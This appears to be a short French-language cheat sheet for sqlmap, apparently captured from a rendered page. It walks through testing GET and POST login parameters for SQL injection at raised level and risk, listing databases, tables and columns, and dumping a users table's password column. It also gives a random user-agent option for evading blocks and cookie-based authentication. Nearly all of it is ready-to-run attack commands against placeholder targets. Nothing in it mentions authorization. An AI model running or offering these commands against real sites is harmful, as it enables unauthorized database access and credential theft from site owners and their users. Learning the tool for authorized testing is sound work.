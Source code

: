 # sqlmap
1. Tester si l’URL est vulnérable (avec un paramètre GET)
<hr>

Installation

```bash
sudo apt install sqlmap
```
Passons aux tests :
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --level=3 --risk=2
```
* `--batch` : passe les questions interactives en mode automatique
* `--level=3` et --risk=2 : testent plus de techniques (un peu plus agressif)

2. Tester un formulaire POST (comme un login)
Supposons que le formulaire POST se fait sur http://example.com/login.php
avec les champs username et password.

Crée un fichier post_data.txt :

```pgsql
username=admin&password=admin
```
Puis lance :

```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin" --batch --level=3 --risk=2
```
3. Extraire la base de données, tables, colonnes, ou données
Pour lister les bases :

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --dbs
```
Pour lister les tables dans une base mydb :

bash
Copier
Modifier
sqlmap -u "http://example.com/page.php?id=1" --batch -D mydb --tables
Pour lister les colonnes d’une table users :

bash
Copier
Modifier
sqlmap -u "http://example.com/page.php?id=1" --batch -D mydb -T users --columns
Pour extraire les données d’une colonne password :

bash
Copier
Modifier
sqlmap -u "http://example.com/page.php?id=1" --batch -D mydb -T users -C password --dump
4. Autres options utiles
--cookie="PHPSESSID=xyz" si tu as besoin d’authentification via cookie

--random-agent pour changer l’User-Agent et éviter certains blocages

--timeout=10 pour allonger le délai si le serveur est lent

